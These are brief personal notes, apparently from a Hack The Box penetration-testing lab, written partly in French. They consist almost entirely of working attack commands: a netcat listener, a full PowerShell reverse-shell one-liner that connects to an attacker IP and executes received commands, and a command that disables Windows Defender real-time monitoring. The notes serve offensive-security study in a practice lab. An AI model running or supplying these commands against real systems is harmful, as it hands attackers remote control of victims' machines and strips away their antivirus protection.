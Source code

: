 # Reverse Shell

Reverse Shell :
https://www.revshells.com/
rdesktop -u htb-student 10.129.164.117

On the server (attack box) : sudo nc -lvnp 443

On the client (target) :

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.67',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Command prompt (clique-droit Run As Adinistrator)
Sur Powershell : Clique-droit : Run as Administrator

Pour désactiver l'AV :
--> Set-MpPreference -DisableRealtimeMonitoring $true

